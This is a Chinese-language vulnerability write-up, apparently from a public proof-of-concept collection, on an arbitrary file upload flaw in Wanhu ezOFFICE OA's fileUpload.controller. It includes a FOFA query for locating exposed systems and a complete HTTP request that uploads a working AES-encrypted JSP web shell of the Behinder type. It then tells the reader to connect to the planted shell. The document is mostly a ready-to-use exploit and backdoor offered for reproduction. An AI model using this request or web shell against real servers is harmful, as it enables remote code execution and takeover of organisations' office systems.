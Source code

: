 # 

# 万户OA fileUpload.controller 任意文件上传漏洞

## 漏洞描述

万户OA fileUpload.controller 存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![img](./images/1628348571931-52bde954-fcd0-485f-bc17-1494f5eb53f4.png)

发送请求包上传文件

```php
POST /defaultroot/upload/fileUpload.controller HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: Keep-Alive
Content-Type: multipart/form-data; boundary=KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0
Content-Length: 773

--KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0
Content-Disposition: form-data; name="file"; filename="cmd.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*......tas9er*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
--KPmtcldVGtT3s8kux_aHDDZ4-A7wRsken5v0--
```

![img](./images/1628348700247-9ac78c6c-b56f-4137-a0b3-ba3b13733c19.png)

使用冰蝎连接木马 **/defaultroot/upload/html/xxxxxxxxxx.jsp**

![img](./images/1628349045223-89889c4f-c7e6-4a31-af77-5c58fa8749b4.png)
